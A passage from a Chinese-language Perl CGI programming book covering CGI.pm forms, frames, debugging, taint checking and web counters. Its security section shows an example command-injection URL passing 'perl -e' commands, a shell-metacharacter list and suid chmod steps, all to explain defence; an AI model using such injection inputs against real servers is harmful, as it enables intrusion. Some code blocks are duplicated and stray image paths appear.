Cruise missiles
<P>
Please indicate your income level:
<P>
<SELECT NAME="list" SIZE=4>
<OPTION  VALUE="Highest">
Highest
<OPTION SELECTED VALUE="High">
High
<OPTION  VALUE="Medium">
Medium
<OPTION  VALUE="Low">
Low
</SELECT>
<P>Please indicate the day of the week:
<P>
<INPUT TYPE="radio" NAME="radios" VALUE="1" CHECKED>Sunday
<INPUT TYPE="radio" NAME="radios" VALUE="2">Monday
<INPUT TYPE="radio" NAME="radios" VALUE="3">Tuesday
<INPUT TYPE="radio" NAME="radios" VALUE="4">Wednesday
<INPUT TYPE="radio" NAME="radios" VALUE="5">Thursday
<INPUT TYPE="radio" NAME="radios" VALUE="6">Friday
<INPUT TYPE="radio" NAME="radios" VALUE="7">Saturday
<P>
Please enter your password:
<P>
<INPUT TYPE="password" NAME="password" VALUE="open sesame" SIZE=30>
<P>
Thank you for filling out our Survey. Please indicate how
much unsolicited mail you like to get:
<SELECT NAME="popupmenu">
<OPTION  VALUE="Very much">Very much
<OPTION  VALUE="A lot">A lot
<OPTION  VALUE="Not so much">Not so much
<OPTION  VALUE="None">None
</SELECT>
<P>
<INPUT TYPE="hidden" NAME="hiddendata" VALUE="Rosebud">
<CENTER>
<INPUT TYPE="submit" NAME="Submit" VALUE="Submit">
<INPUT TYPE="reset">
</CENTER>
<HR>
<INPUT TYPE="hidden" NAME=".cgifields" VALUE="radios">
<INPUT TYPE="hidden" NAME=".cgifields" VALUE="list">
<INPUT TYPE="hidden" NAME=".cgifields" VALUE="checkboxes">

</FORM>
</BODY>
</HTML>
```

## 创建图像映射

"嘿，"新手程序员说，"我想在我的网页中创建一个可点击的图像——一个图像映射。我能做到吗？""当然可以，"你说，"你只需使用**image_button方法**。"

要创建一个用户可以点击的图像映射，请使用**image_button方法**。当用户点击该图像映射时，鼠标的坐标会发送到你的脚本。如果你给图像映射控件命名，比如**map**，那么返回到你脚本中的坐标将位于**map.x**和**map.y**中。

考虑这个例子。本例中，我使用来自map.gif文件的图像，以如下方式创建一个名为**map**的图像映射：

```
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

print $co->header,

$co->start_html('Image Map Example'),
$co->h1('Image Map Example'),
$co->start_form,
$co->image_button
(
    -name => 'map',
    -src=>'map.gif'
),
$co->p,
$co->end_form,
$co->hr;
```

因为我没有向**start_form方法**传递任何参数，所以当用户点击图像映射时，表单中的数据将被发送回同一个CGI脚本。如果数据发送到脚本，我可以这样读取和显示鼠标点击的位置，我通过判断**param方法**是否指示有数据待处理来检查：

```
#!/usr/local/bin/perl

use CGI;

$co = new CGI;
```


## 第21章  CGI编程：CGI.pm

```perl
print $co->header,

$co->start_html('Image Map Example'),
$co->h1('Image Map Example'),
$co->start_form,
$co->image_button
(
    -name => 'map',
    -src=>'map.gif'
),
$co->p,
$co->end_form,
$co->hr;
```

```perl
if ($co->param())
{
    $x = $co->param('map.x');
    $y = $co->param('map.y');
    print "You clicked the map at ($x, $y)";
}
```

```perl
print $co->end_html;
```

结果如图21.6所示。如你所见，用户可以点击图像地图向脚本发送数据，该脚本会根据像素坐标指示图像地图被点击的位置，从而创建一个新的网页。这个例子是成功的。

另一个值得参考的资源是来自CPAN的**CGI::Imagemap**模块。

## 创建框架

“那么创建框架呢？”新手程序员问道，“我能用**CGI.pm**做到吗？”“当然可以，”你说，“通过使用HTML快捷方式。但是，别忘了你也可以直接将你想要的HTML打印到网页上。”“我没忘记，”新手程序员说，“我只是想用**CGI.pm**来做这件事。”

你可以通过使用**CGI.pm**的HTML快捷方式**frameset**和**frame**来创建框架。在下面的例子中，我创建了一个包含两个框架的网页：

```perl
#!/usr/local/bin/perl

use CGI;
$co = new CGI;

print $co->header,

$co->frameset(
    {-rows=>'40%,60%'},

    $co->frame
    ({
        -name=>'top',
        -src=>'http://www.yourserver.com/username/cgi/a.htm'
    }),

    $co->frame
    ({
        -name=>'bottom',
        -src=>'http://www.yourserver.com/username/cgi/b.htm'
    })
);
```

结果如图21.7所示；如你所见，你可以使用**CGI.pm**来创建框架。**frameset**可以使用的属性有**-rows**和**-cols**；**frame**可以使用的属性有**-marginwidth**、**-name**、**-noresize**、**-scrolling**和**-src**。

图21.7  创建框架。

## 非面向对象的CGI编程

“我又被派往西方分公司了，”新手程序员说，“那里的员工不喜欢面向对象编程。我该如何使用**CGI.pm**？”“嗯，”你说，“你可以改用**CGI.pm**模块的面向函数的接口。”

到目前为止，我们在本章中一直使用CGI包的面向对象方法，但CGI包也有一个基于函数的接口。

**警告！***并非所有面向对象的CGI方法在基于函数的接口中都受支持。*

下面的例子使用了基于函数的CGI接口；这段代码显示了一个文本框，并提示用户输入他或她的名字。当用户输入名字并点击提交按钮时，文本框中的数据会被发布回同一个CGI脚本，该脚本使用**param**函数在返回的网页底部显示用户输入的名字：

```perl
#!/usr/local/bin/perl

use CGI qw/:standard/;

print header,
start_html('CGI Functions Example'),

h1('CGI Functions Example'),

start_form,

"Please enter your name: ",

textfield('text'),

p,

submit, reset,

end_form,

hr;

if (param()) {

  print "Your name is: ", em(param('text')), hr;

}

print end_html;
```

你可以在图21.8中看到此脚本的结果。

**图21.8** 一个基于函数的CGI脚本。

### 它可执行吗？

这个问题相当于硬件手册中总会问的那一行：你插上电源了吗？有时，你可能忘记给CGI脚本赋予正确的运行权限，比如555或755。这里重要的一点是确保脚本是可执行的，因为如果不是，当你调用它时会得到错误500。

如果你遇到访问权限的问题——例如，你可能没有权限读取该脚本，或者脚本试图访问它没有权限的资源——你通常会得到一条“权限被拒绝”的消息。

### 它的语法正确吗？

导致错误500的最大原因是语法错误。幸运的是，你可以很容易地在本地检查脚本的语法，而无需在Web服务器上运行它。要检查脚本的语法，请在控制台下使用`-w`开关（以查看警告）和`-c`开关（这样Perl只会解析而不会运行脚本，并告知你任何语法问题）来运行它：

```
% perl -w -c script.cgi

script.cgi syntax OK
```

这个解决方案应该能处理大多数错误。然而，如果脚本的语法没问题，但你仍然得到错误500，那么是时候尝试在本地运行脚本了。

### 在本地运行脚本

**CGI.pm**允许你在本地运行CGI脚本，而无需在Web服务器上运行它们。例如，假设你有这个想要测试的CGI脚本（我这里所做的只是显示发送到此脚本的名为**text**的文本框中的数据）：

```perl
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

print $co->header,

$co->start_html
(
    -title=>'CGI Example',
    -author=>'Steve',
    -meta=>{'keywords'=>'CGI Perl'},
    -BGCOLOR=>'white',
    -LINK=>'red'
),

"Your name is: ",

$co->em($co->param('text')), ".",

$co->end_html;
```

你可以在命令行运行此脚本。但是，这个脚本期望的名为**text**的控件的数据呢？你可以在命令行上这样传递它：

```
% perl script.cgi text=George
```

当你这样做时，**CGI.pm**会在控制台上打印它将发送给Web服务器的内容，像这样：

```
% perl script.cgi text=George
Content-Type: text/html

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML//EN">
<HTML>

<HEAD>
<TITLE>CGI Example</TITLE>
<LINK REV=MADE HREF="mailto:Steve">
<META NAME="keywords" CONTENT="CGI Perl">
</HEAD>
<BODY BGCOLOR="white" LINK="red">
Your name is: <EM>George</EM>.
</BODY>

</HTML>
```

如果你有多个参数要填充，你也可以在命令行上传递它们，像这样：

```
% perl script.cgi text1=George text2=Georgette text3=Georgie
```

实际上，你可以将一个充满此类数据的整个文件重定向给脚本，像这样：

```
% perl script.cgi < input.txt
```

除了以这种方式设置传递给脚本的参数值外，你还可以设置脚本可能读取的环境变量——例如**CONTENT_LENGTH**、**HTTP_USER_AGENT**、**QUERY_STRING**或**REQUEST_METHOD**。（我们将在第24章看到更多关于CGI脚本中环境变量的细节。）你可以在本地设置这些环境变量，尽管实际的命令因操作系统而异。在bash Unix shell中，你可以使用这样的命令：

```
setenv REQUEST_METHOD "POST"
```

在bash Unix shell中，它看起来像这样：

```
export REQUEST_METHOD="POST"
```

而在Windows/MS-DOS中，你执行以下操作：

```
set REQUEST_METHOD = "POST"
```

请注意，你也可以使用Perl的`-d`开关来调试使用CGI.pm的CGI脚本；有关调试的详细信息，请参见第28章。

如果你在本地找不到问题，你就必须在脚本在Web服务器上运行时尝试找到它。这样做可能很困难，因为写入**STDERR**的消息实际上会进入服务器的错误日志，而大多数程序员无法访问该日志。即使你有权访问，找到与脚本运行时发生的错误相对应的实际消息也可能非常困难。另一方面，你可以将**STDERR**重定向到你的Web浏览器。

## 将STDERR重定向到浏览器或文件

要将**STDERR**重定向到CGI脚本创建的网页，你可以像这样将其重定向到**STDOUT**：

```perl
open (STDERR, ">&STDOUT");
```

有时，保留错误日志更好，你可以像这样自己操作：

```perl
open (STDERR, ">error.log");
```

另一个选择是使用**CGI::Carp**。

## 使用CGI::Carp

在整本书中，我使用了Perl函数如**die**、**warn**、**carp**、**croak**和**confess**来处理错误，你可以在CGI编程中使用它们。然而，标准的做法是将它们全部替换为**CGI::Carp**模块中的相应函数，因为该模块生成的消息对CGI脚本更有用。

你可以像这样使用**CGI::Carp**：

```perl
use CGI::Carp;

warn "This is a warning.";
die "A serious error occurred, so quitting.";
```

你也可以通过将文件句柄传递给**carpout**函数，将**die**、**warn**等的错误消息重定向到一个文件而不是**STDERR**：

```perl
use CGI::Carp qw(carpout);

open(FILEHANDLE, ">error.log");

carpout(\*FILEHANDLE);
```

而且，你甚至可以要求将致命错误消息发送到浏览器，使用**fatalsToBrowser**，像这样：

```perl
use CGI::Carp qw(fatalsToBrowser);

die "A serious error occurred, so quitting.";
```

你也可以看看来自CPAN的**CGI::LogCarp**模块。

| 相关解决方案 | 页码 |
| --- | --- |
| 使用CGI环境变量检查浏览器类型等 | 1019 |


## 第22章

## CGI：创建网页计数器、留言簿、邮件发送器和安全脚本

| 如果你需要以下问题的即时解决方案： | 请参阅页码： |
|---|---|
| 认真对待安全性 | 949 |
| 处理受污染的数据 | 951 |
| 清除数据污染 | 953 |
| 在Unix中为CGI脚本赋予更多权限 | 953 |
| 确定浏览器能处理的MIME类型 | 954 |
| 从CGI脚本返回图像 | 956 |
| 创建网页访问计数器 | 958 |
| 基于文本的网页计数器 | 958 |
| 基于图像的网页计数器 | 961 |
| 创建留言簿 | 966 |
| 从CGI脚本发送邮件 | 974 |
| 使用Unix **sendmail** | 974 |
| 使用**Mail**模块 | 979 |

在本章及后续章节中，我将开发许多CGI脚本示例：网页计数器、留言簿、邮件发送器、聊天室、Cookie、购物车、在线用户注册表单、游戏等等。这些脚本涵盖了大量CGI功能，我在书中收录了许多此类示例，因为Perl CGI编程非常流行；对许多程序员来说，这是本书的精华部分。在这里，网页变得生动起来并具有*交互性*。

这些CGI脚本旨在作为演示脚本，展示特定CGI技术的工作原理（例如，展示如何使用Cookie进行购物车应用）。所有示例都功能完整但较为基础，因此您可能需要自行定制；例如，您可能想为留言簿添加图像，或支持五位数的网页计数器，而不是我在此开发的只有三位数的示例。这些示例旨在演示CGI技术——例如从CGI脚本返回图像——而非作为成熟的商业应用。如果您想将它们安装到互联网服务提供商（ISP）上，您应该加强错误检查和安全性，例如，并且——在定制脚本并添加您想要的特色功能后——检查它们以确保其按预期运行。

在开始之前，我应该提到互联网上已有许多Perl CGI脚本可供使用。以下列表展示了一些来源及其URL（当然，在使用任何此类脚本前，请检查其安全性及其他问题）：

- Jason的脚本位于 www.aestheticsurgerycenter.com/scripts/
- Matt的脚本档案位于 www.worldwidemart.com/scripts/
- Yahoo Perl脚本位于 http://dir.yahoo.com/Computers_and_Internet/Programming_Languages/Perl/Scripts/
- Dale Bewley的Perl脚本和链接位于 www.bewley.net/perl/
- www.perl.com的CGI页面位于 http://reference.perl.com/query.cgi?cgi

您还可以在CPAN上查看万维网和额外的CGI模块。

当您开始编写比前两章简单示例执行更多任务的脚本时，安全性就成为了一个问题，这也是我将在本章认真讨论的主题之一，因为这是开始CGI编程的恰当方式。

## CGI安全性

安全性是编程中经常需要考虑的问题，如今这一点比以往任何时候都更加真实，因为操作系统变得如此复杂，以至于越来越难以关闭所有安全漏洞（而且新一代的黑客开始在您的脚本上初试身手）。

在Unix系统上，CGI脚本以服务器用户ID“nobody”的身份运行，这意味着它们没有太多权限，因为它们造成的损害较小。然而，由于CGI脚本中的疏忽，仍然可能造成相当大的损害，因此我将在本章讨论如何避免一些潜在问题。

我建议您在发布任何非最简单的CGI脚本供公共使用之前，阅读以下关于Perl CGI安全性的网页：

- 万维网联盟的CGI安全页面位于 www.w3.org/Security/Faq/www-security-faq.html。
- Perl CGI FAQ的安全部分位于 www.perl.com/CPAN-local/doc/FAQs/cgi/perl-cgi-faq.html。
- Selena Sol关于安装预写脚本风险的页面位于 http://Stars.com/Authoring/Scripting/Security/。
- Paul Phillips的CGI安全FAQ位于 www.go2net.com/people/paulp/cgi-security/safe-cgi.txt。（但请注意，尽管此页面有一些好的指导，但它自1995年底以来未更新。）

最大的安全漏洞是无意中让用户执行系统命令，例如当您使用反引号或system命令时。如果您不运行任何系统命令，那就已经解决大部分问题了。您将在后面的“即时解决方案”部分找到关于此主题及其他主题的更多详细信息。

在讨论CGI安全性之后，我将进入实际的CGI编程。在本章中，您将看到如何从CGI脚本返回图像，这是一项强大的技术。您还将看到如何创建网页计数器，它可以报告您的网页有多少访问者。市面上有许多网页计数器，但能够创建自己的计数器可以让您根据需要自定义它，包括其中使用的图形。它还将给您提供使用CGI脚本处理文件的经验，因为网页计数器需要将当前的点击次数存储在磁盘上。

在本章中，我还将编写一个功能完整的留言簿。留言簿是最受欢迎的CGI应用之一；在我们的示例中，用户将能够通过在文本区域输入评论并在文本字段中输入姓名来添加他或她自己的留言。留言簿脚本将在添加时间和日期后记录并格式化条目，将它们写入一个可以随时查看的网页。

除了留言簿，我将在本章编写一个邮件发送器脚本。如果您想从用户那里获得反馈，邮件发送器非常有用。例如，假设您正试图在网络上销售您的热门新产品；使用邮件发送器，您可以立即收到来自感兴趣用户的电子邮件。用户所要做的就是在文本区域控件中输入内容，添加他或她的电子邮件地址，然后单击“发送”按钮。通过这种方式获取电子邮件通常比使用留言簿之类的东西更方便，因为它是私密的，邮件直接发送给您；您不必打开浏览器去寻找它。您还可以编写作为监控器运行的脚本，不时给您发送警报，或者转发邮件；邮件发送器有数十种用途。

那么，介绍就到这里；是时候开始编程了。

## 认真对待安全性

“好的，”新手程序员说，“我准备好将我的新CGI脚本SuperDuperSecurityLoopholes放到公司网页服务器上了。”“哦，不，你还没有，”一位恰好在附近闲逛的技术支持高手说。“让我先检查一下它的安全问题。”

CGI脚本可能有很多安全漏洞，了解这些可能性是个好主意。

举一个极端的例子，假设您有一个脚本，它本身运行您作为参数传递的程序名称。HTML表单中的数据作为字符串发送，使用问号`?`开始该字符串，使用`&`分隔参数，使用加号`+`表示空格。（更多细节请查看第28章，我在那里编写了一个将文本数据转换为这种字符串并将其发送到CGI脚本的应用程序。）这个字符串被附加到URL的末尾，这意味着如果您天真地想执行一个Perl脚本，调用的URL可能如下所示：

```
http://www.yourservercom/user/perl.exe?script1.pl
```

但是，如果黑客看到您正在使用这种不安全的技术，他们可以轻松地附加这样的参数字符串：

```
http://www.yourservercom/user/perl.exe?-e+'nasty commands'
```

这样，黑客就可以执行他们想要的任何Perl命令，这可不是个好主意。

这个例子指出了Perl CGI脚本中最大的安全漏洞来源之一：在不检查传递给它们的代码的情况下调用外部程序。

在Perl中，您可以通过多种不同的方式调用外部程序。您可以使用反引号，可以打开指向另一个程序的管道，还可以使用`system`或`exec`调用。甚至`eval`语句也必须相当谨慎地处理。重要的是您要设置好CGI接口，以免无意中执行危险的操作，因为许多黑客都是利用这类安全漏洞并让您的CGI脚本为他们执行代码的专家。

事实上，Perl 有一个完整的安全机制来处理此类情况；请参阅本章后面的“使用受污染数据”主题。当你启用数据污染检查时，Perl 不会允许你将任何来自脚本外部的数据传递给 **system** 或 **exec** 或类似的调用。

一个简单的经验法则是，永远不要将未经检查的数据传递给外部程序，并始终想办法确保你不需要打开 shell。

在某些罕见的情况下，你可能别无选择，只能使用 shell；在这些情况下，你应始终检查传递给 shell 的元字符参数，并至少将它们移除。Unix shell 的元字符如下：

```
& ; ' ' \\ " | * ? ~ < > ^ ( ) [ ] { } $ \n \r
```

> **提示：** 虽然 **system** 调用的标量形式不安全，但你可以改用列表形式，因为后者可以防止系统转义。不要写 **system(command $data @data)** 这样的代码，而应使用 **system(command, $data @data)** 的形式。你还应该始终检查系统调用的返回值。

还有一点很重要：不要让其他人有意或无意地重写你的脚本或数据文件。换句话说，要特别小心你设置文件权限级别的方式，以确保它们不会被其他人覆盖。

当然，通常的安全限制仍然适用：不要通过电子邮件发送你的密码，不要在使用公共工具（如 Unix 的 **ytalk**）时输入密码，等等。不要让你的账户长时间不活动（黑客会寻找这样的账户来接管）。不要让你的 CGI 脚本泄露过多的系统信息。对密码、信用卡号等进行加密，并在必要时使用安全套接层（SSL/https）协议。网上的黑客比你想象的要多。

安全问题不值得让你变得偏执，但了解风险是值得的。许多互联网服务提供商在某个时候都曾遭受过重大黑客攻击，大多数是针对未使用的账户，通常涉及运行 *crack* 程序（该程序使用 **crypt** 反复加密猜测密码，并将结果与公开可访问的密码文件进行核对），或者通过粗心的 CGI 脚本进入系统。

| 相关解决方案： | 找到页面： |
|---|---|
| 处理在线用户注册 | 1233 |

## 使用受污染数据

一个新手程序员走过来说：“技术支持的同事说，除非我打开污染检查，否则我的 CGI 脚本中不能使用任何 shell 命令。”“这是个好建议，”你说。“我同意，”新手说，“但是，到底*什么是*污染检查呢？”

CGI 脚本中最大的安全漏洞之一就是将未经检查的数据传递给 shell。在 Perl 中，你可以使用 *taint* 机制来防止这种情况发生。

当你打开污染检查时，任何被赋予程序外部数据（包括来自环境、标准输入或命令行的数据）的变量都会被*污染*。当它被污染时，你不能用它来影响程序外部的任何东西。如果你用一个污染变量去设置另一个变量，第二个变量也会被污染，这意味着受污染的数据可以在你的程序中传播，但它仍然被安全地标记为受污染。

> *提示：* “受污染性”仅与标量值相关。这意味着数组的某些元素可能被污染，而其他元素则没有。

通常，受污染的变量不能在 **eval**、**system**、**exec** 或管道 **open** 调用中使用。Perl 会仔细确保受污染的数据不能用于任何调用子 shell 的命令，也不能用于任何修改文件、目录或进程的命令。

> *提示：* 一个重要的例外：如果你将参数列表传递给 **system** 或 **exec** 语句，则该列表的元素不会被检查是否受污染。

如果你试图用受污染的数据影响程序外部的任何内容，Perl 会退出并显示一条警告消息，这意味着你的 CGI 脚本将停止运行。当你打开污染检查时，如果你在没有显式设置 **PATH** 环境变量的情况下调用外部程序，Perl 也会退出。

在 Perl 版本 4 中，你通过使用一个名为 **taintperl** 的特殊版本 Perl 解释器来打开污染检查：

```
#!/usr/local/bin/taintperl
```

然而，在 Perl 版本 5 中，污染检查是内置的，因此你通过向 Perl 解释器传递 **-T** 开关来启用它：

```
#!/usr/local/bin/perl -T
```

在下面的示例中，我打开了污染检查，但没有做任何危险的事情，所以我不应该有任何问题：

```
#!/usr/local/bin/perl -T

print "Hello!\n";
```

*Hello!*

然而，如果你在打开污染检查时使用了诸如 **system** 语句之类的潜在危险语句，Perl 会警告你可能存在来自环境数据的安全漏洞。即使你在调用外部程序时不依赖于路径，你也冒着被调用程序可能这样做的风险。

你将看到以下错误消息：

```
#!/usr/local/bin/perl -T

print system('date');
```

*Insecure $ENV{PATH} while running with -T switch at taint.cgi line 5, <> chunk 1.*

要解决此问题，你可以在使用污染检查时显式设置 **$ENV{'PATH'}**：

```
#!/usr/local/bin/perl -T

$ENV{'PATH'} = '/bin:/usr/bin:/usr/local/bin';

print system('date');
```

*Thu Nov 12 19:55:53 EST*

在下一个示例中，我尝试使用受污染的数据进行系统调用。即使我设置了 **$ENV{'PATH'}**，脚本仍然会死亡，因为它试图将受污染的数据传递给 **system** 语句（请注意，如图所示，即使数据从 **$_** 赋值给 **$command**，它仍然是受污染的）：

```
#!/usr/local/bin/perl -T

$ENV{'PATH'} = '/bin:/usr/bin:/usr/local/bin';

while (<>) {
    $command = $_;
    system($command);
}
```

*Insecure dependency in system while running with -T switch at taint.cgi line 5, <> chunk 1.*

如果你确信数据是安全的，如何清除其污染呢？请参阅下一个主题了解方法。

## 清除数据污染

“哦，糟糕，”新手程序员说，“现在我已经启用了污染检查，所有来自脚本外部的东西都被污染了。如果我确实确定它是安全的，我该如何清除某些东西的污染呢？”“如果你真的确定，”你说，“你可以清除它的污染。”

清除受污染变量的唯一方法是使用模式匹配从受污染的变量中提取子字符串。

在这个示例中，我期望一个受污染的变量 **$tainted** 包含一个电子邮件地址。我这样提取该地址并将其存储为未受污染的数据：

```
$tainted =~ /(^[\w]+)\@([\w.]+)/;
$username = $1;
$domain = $2;

print "$username\n";
print "$domain\n";
```

通过这种方式，我从受污染的变量中提取出了安全的数据。这就是你创建未受污染数据的方法——从受污染的数据中提取你已知安全的子字符串（并明确避免 shell 元字符）。

## 在 Unix 中为 CGI 脚本赋予更多权限

“我想给我的 CGI 脚本更多的权力和系统权限，”新手程序员说。“我该如何给我的 CGI 脚本更多的权力和系统权限呢？”新手问道。你说：“新手程序员不会这样做。”“哦，”新手说。

由于你的 CGI 脚本在 Unix 下以系统 ID “nobody” 运行，它没有太多权限。你可能想要更多权限来让你的脚本执行某些操作，例如创建文件。你可以给你的 CGI 脚本更多权限，但这个操作非常不安全，你应该首先考虑所有其他可能的选择，然后只在极其谨慎的情况下才添加更多权限。

你可以以 *suid* 方式运行 Perl 脚本，这意味着它将拥有与其所有者（即你）相同的权限。请注意，你必须有一个非常好的理由这样做，并且应该在实际可行后尽快移除这些权限。你可以通过使用 **chmod** 设置脚本的 **s** 位来使其以 suid 方式运行：

```
chmod u+s script1.pl
```

你也可以通过使用 **chmod** 设置其组字段的 **s** 位，使脚本以其所有者的组权限运行：

```
chmod g+s script1.pl
```

但请注意，许多 Unix 系统存在一个微妙的安全漏洞，允许 suid 脚本被用于恶意目的。你如何判断你是否在这样的系统上呢？如果你在这样的系统上，并且你尝试执行设置了 suid 位的脚本，你会从 Perl 收到一条错误消息。

> **提示：** 除了以 suid 方式运行脚本外，很少有操作不能以安全的方式执行。我包含这个主题只是为了完整性。如果你确实以这种方式提升了 CGI 脚本的权限，请非常确定你知道你在做什么，并且永远不要让此类脚本处于无人看管的状态。

## 确定浏览器能处理哪些 MIME 类型

“嘿，”新手程序员说，“我正尝试向我的浏览器发送图像，但它们没有显示出来。”你问：“你发送的是什么类型的图像？”新手说：“它们来自我的旧系统 SuperDuperWildcatPro3，有点像专有图像格式——binksy12a 编码。当然是修订版 14.3。”“嗯哼，”你说，“你是否想过你的浏览器可能无法处理那种格式？”

你可以通过检查 **HTTP_ACCEPT** 环境变量来查看浏览器能接受哪种图像格式，该变量列出了浏览器可以接受的多用途互联网邮件扩展（MIME）类型。（有关环境变量的更多详细信息，请参见第 24 章。）每个主要的数据格式（如 GIF 或 JPEG）都有对应的 MIME 类型。（实际上，你的 Web 服务器也需要为任何给定的 MIME 类型启用该功能；否则，它会将数据作为文本传输，这会让很久以前第一次通过电子邮件发送 DOC 文件的 Microsoft Word 用户大吃一惊。）


以下简短的CGI脚本会显示读取该脚本的浏览器可以接受哪些类型的MIME类型：

```perl
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

print $co->header,

$co->start_html,

"Your browser accepts: ",

$ENV{HTTP_ACCEPT},

$co->end_form,
$co->end_html;
```

结果显示在图22.1中，你可以看到Netscape Navigator浏览器能够接受的图像类型——image/gif、image/x-xbitmap、image/jpeg等等。（对于新手程序员来说不幸的是，image/binksy12a并未出现在此列表中。）

| 相关解决方案 | 找到页面 |
| --- | --- |
| 获取CGI环境变量以检查浏览器类型等 | 1019 |



**图22.1** 检查浏览器可接受的MIME类型。

## 从CGI脚本返回图像

“文本，文本，文本，”新手程序员说，“我厌倦了文本。我想以图像格式返回CGI脚本的结果——你知道的，每天一张新图。我能做到吗？”“当然，”你说，“只要确保你发送给浏览器的数据的MIME类型设置正确即可。拉把椅子过来，我来解释一下。”

如果你将文档的MIME类型设置为图像类型，就可以直接将图像的原始字节发送到Web浏览器，从而实现通过程序控制返回图像。图像MIME类型有image/jpeg、image/gif等；要检查特定浏览器能接受哪些图像类型，请参阅前面的主题。

现在，考虑这个例子。在这个例子中，我将从一个CGI脚本返回存储在文件image.gif中的图像，并在一个普通Web页面中使用****标签读取该CGI脚本。首先，我打开图像文件（我确保图像文件的权限级别设置得足够低，以便CGI脚本可以打开它）：

```perl
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

open (IMAGE, "<image.gif");
```

现在，我使用**-s**文件操作符获取文件大小，并将整个图像读入一个名为**$data**的标量中：

```perl
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

open (IMAGE, "<image.gif");

$size = -s "image.gif";

read IMAGE, $data, $size;

close IMAGE;
```

剩下的就是将图像打印到Web浏览器。为了正确设置MIME类型，你需要将该类型传递给**CGI.pm**模块的**header**方法，就像这样设置**-type**属性。这里，我将类型设置为**image/gif**，然后直接将原始数据打印到浏览器：

```perl
#!/usr/local/bin/perl

use CGI;

$co = new CGI;

open (IMAGE, "<image.gif");

$size = -s "image.gif";

read IMAGE, $data, $size;

close IMAGE;

print

$co->header(-type=>'image/gif'),

$data;
```

就这么简单。现在，在一个Web页面中，我可以使用****标签来显示此脚本（image.cgi）返回的图像，只要通过**SRC**属性指定该脚本名作为图像来源：

```html
<HTML>
<HEAD>
<TITLE>Images From CGI Scripts</TITLE>
</HEAD>
<BODY>
<CENTER>
<H1>Images From CGI Scripts</H1>

</CENTER>
</BODY>
</HTML>
```

结果显示在图22.2中。如图所示，CGI脚本确实返回了一个可以用于静态Web页面的图像。



**图22.2** 显示从CGI脚本返回的图像。

## 创建网页访问计数器

> 嘿，新手程序员说，既然我已经开始CGI编程了，老板想要给公司主页做一个网页计数器。我该怎么写一个？你可以用各种方式写一个，我说。你最好去倒杯咖啡，我们来逐一探讨。

创建一个用于统计页面访问次数的网页计数器脚本并不困难：你只需要将当前计数存储在一个文件中，并在需要时显示该计数。我将在这里写两个示例——一个以文本形式显示当前访问计数，另一个使用可自定义的图像显示当前计数。

### 基于文本的网页计数器

第一个基于文本的示例将命名为counter.cgi，它出现在代码清单22.1中。要使用它，你必须在与counter.cgi相同的目录中创建一个名为count.dat的文件。要开始计数，请在count.dat中放入0（使用文本编辑器），并确保该文件的权限足够低，以便你的系统上的CGI脚本可以向其写入。

我在这里做的是读取count.dat中的当前计数，将其递增，然后将其存回count.dat：

```perl
#!/usr/bin/perl

use CGI;

$co = new CGI;

open (COUNT, "<count.dat")
    or die "Could not open counter data file.";

$count = <COUNT>;

close COUNT;

$count++;

open (COUNT, ">count.dat");

print COUNT $count;

close COUNT;
```

剩下的就是显示新的计数以及一条给用户的消息，表明如果他或她重新加载此脚本，计数将会更新：

```perl
print
$co->header,
$co->start_html(
    -title=>'Counter Example',
    -author=>'Steve',
    -BGCOLOR=>'white',
),

$co->center($co->h1('Counter Example')),

$co->p,
$co->center($co->h3("Current count: ", $count)),

$co->p,
$co->center($co->h3("Reload the page to update the count")),
```

这就是所需要的全部。结果显示在图22.3中；每次重新加载页面时，计数都会递增。

**图22.3** 网页计数器。

### 代码清单22.1 counter.cgi

```perl
#!/usr/bin/perl

use CGI;

$co = new CGI;

open (COUNT, "<count.dat")
    or die "Could not open counter data file.";

$count = <COUNT>;

close COUNT;

$count++;

open (COUNT, ">count.dat");

print COUNT $count;

close COUNT;

print
$co->header,
$co->start_html(
    -title=>'Counter Example',
    -author=>'Steve',
    -BGCOLOR=>'white',
),

$co->center($co->h1('Counter Example')),

$co->p,
$co->center($co->h3("Current count: ", $count)),

$co->p,
$co->center($co->h3("Reload the page to update the count")),

$co->end_html;
```

请注意这里的问题：包含计数的网页是由CGI脚本生成的，如果你想这样做当然没问题，但许多人希望在标准的静态HTML页面中使用网页计数器。你可以通过使用图像而不是文本来显示计数来实现这一点。

### 基于图像的网页计数器

你可以创建一个基于图像的网页计数器，通过CGI脚本返回表示计数的图像，从而在静态HTML页面中使用。如果你够厉害，实际上可以在CGI脚本中创建所需的图像文件，但这里我将采用更简单的方法，只让CGI脚本逐个返回计数的各个数字。

